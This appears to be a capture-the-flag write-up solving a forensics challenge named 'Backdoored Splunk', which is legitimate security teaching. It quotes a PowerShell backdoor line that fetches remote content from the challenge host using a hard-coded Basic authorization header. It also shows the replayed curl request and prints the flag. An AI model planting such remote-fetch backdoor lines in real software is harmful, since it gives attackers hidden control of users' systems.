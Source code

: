 # Backdoored Splunk (forensics, 637 solves, 50 points)

## Introduction

<p align="left">
  <img height=400 img src=./readme_assets/splunk-challenge.PNG/>
</p>

## Solution

You are given a file and a url. When you go to the website you get an error.

<p align="left">
  <img height=200 img src=./readme_assets/splunk-error.PNG/>
</p>

Googling the error you find that we can use curl to fix the error and access the site. [reqbin](https://reqbin.com/req/curl/h4rnefmw/post-json-with-bearer-token-authorization-header). 

First we have to `grep` the splink files to find the info we need. Grepping `authorization` you found `$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$32613 -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content`

Use this info to curl the website. `curl http://chal.ctf.games:32613 -H "Authorization: Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=="`

You receive `ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ==` in return. Decode from base64 to got the flag.

## Flag

**`flag{60bb3bfaf703e0fa36730ab70e115bd7}`**

## Tools


